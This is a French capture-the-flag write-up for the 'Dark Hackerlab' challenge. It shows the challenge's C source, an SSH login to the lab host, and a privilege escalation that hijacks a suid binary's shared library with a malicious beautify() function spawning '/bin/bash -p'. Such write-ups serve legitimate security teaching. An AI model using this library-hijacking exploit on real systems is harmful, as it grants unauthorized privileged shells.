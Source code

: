# DARK HACKERLAB
> 500 points
> 
>[FR]
> 
>Trompez l'admin. Utilisez les identifiants de connexion suivants: Username:hackerlab, password:hackerlab.
> 
>[EN]
> 
>Fool the admin. Use the following login credentials: Username:hackerlab, password:hackerlab.
> 
> Author: 5c0r7

## Fonctionnement
Pour ce challenge, l'auteur a joint le code source d'un programme c. 

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ptrace.h>
#include "hackerlab.h"

int main() {
    printf("Welcome to the dark part of Hackerlab. \nHere I register all the team and share some flag for free.\n");
    char team_name[100] = "";
    int choice;

    while (1) {
        printf("Do your choice.\n");
        printf("1- Register your team.\n");
        printf("2- Show you all the flag I have in my vault.\n");
        printf("3- Print team banner.\n");
        printf("4- Do joke.\n");
        printf("5- Exit.\n");
        printf("Your choice: ");

        if (scanf("%d", &choice) != 1) {
            printf("Bad type of choice.\n");
            break;
        }

        if (choice < 1 || choice > 5) {
            printf("Your choice ain't in my choice set.\n");
        } else {
            if (choice == 1) {
                printf("Enter your team name: ");
                scanf("%99s", team_name);
                printf("Team name registered successfully.\n");
            } else if (choice == 2) {
                printf("You're not allowed to see the flag.\n");
            } else if (choice == 3) {
                if (strlen(team_name) == 0) {
                    printf("You haven't set your team name yet.\n");
                } else {
                    beautify(team_name);
                }
            } else if (choice == 4) {
                printf("Nothing. I am not good at joking, not your clown.\n");
            } else if (choice == 5) {
                printf("You ask to exit, byyyyyye.\n");
                exit(EXIT_SUCCESS);
            }
        }
    }

    return 0;
}
```

Il s'agit d'un programme interactif qui commence par afficher un message de bienvenue et offre uniquement cinq options, notamment l'enregistrement d'un nom d'équipe, l'affichage du flag (indiquant que l'utilisateur n'est pas autorisé), l'affichage d'une bannière d'équipe (si elle est enregistrée) où une fonction `beautify` est appelée, le rejet de toute demande de blague, et la sortie du programme. Tout autre choix conduit à un message d'erreur. Le programme répète le menu interactif tant que l'utilisateur ne choisit pas l'option de sortie.

Mais il y a un hic 🥲. Il nous faut le header 'hackerlab.h' à inclus au niveau du préprocesseur.

En exploitant les identifiants de connexion, nous nous sommes connectés à la machine distante par ssh (`ssh -p 1020 hackerlab@54.37.70.250`). Nous avons ensuite essayé d'afficher le contenu du répertoire courant:

<img src="File/ls_darkhackerlab.png">

Notre tentative de lecture du fichier `.flag` a été échoué comme vous avez pu vous en douter 😂. C'était trop beau pour être vrai 😩. Jetons un coup d'oeil sur d'autres fichiers. Le fichier `so-shared` est un binaire muni d'un bit d'exécution `suid` pour l'utilisateur `scort`. Intéressant ! On pourrait l'exploiter pour du privesc. 
Pour obtenir plus d'informations sur le binaire, nous pouvons utiliser des outils dont `readelf`, `gdb` et `ldd`. 

Avec `ldd` nous constatons que `so-shared` utilise la librairie partagée `libhackerlab.so`.

<img src="File/ldd_darkhackerlab.png">

Les autres outils ne nous ont pas été d'une grande utilité. La gentillesse de scort cachait bien un truc 🤣.

Par ailleurs, nous remarquons  la présence d'une chaine beautify lors de l'exécution de la librairie partagée à travers un `strings bash libhackerlab.so`. Il s'agit sûrement de la fonction `beautify()` déclarée dans le header `hackerlab.h`

<img src="File/strings_shared_library_darkhackerlab.png">

## Solution

Pour réussir ce challenge d'escalation de privilèges, nous avons créé un fichier `hackerlab.c` qui contient une fonction `beautify` permettant d'obtenir un shell scort.
Elle reçoit en paramètre une chaine de caractères `team_name` et ne renvoie rien.

```
echo "#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
void beautify(char team_name[]) {
    setuid(0);
    system('/bin/bash -p');
}
" > hackerlab.c
```

Ensuite, nous avons compilé le programme en une librairie partagée

```
gcc -shared -fPIC -o libhackerlab.so hackerlab.c
```

Enfin, nous avons créé un nom de team avec l'option 1 du menu interactif du programme `so-shared` puis choisi l'option 3. We got a shell with user scort id 😋.

Il ne nous reste plus qu'à afficher le fichier `.flag`

<img src=File/darkhackerlab_flag.png >

> Flag : CTF_1_lOve_sh4r3d_0bj3ct_s0_!_h1j4ck3d_4!|_th@t_sh17
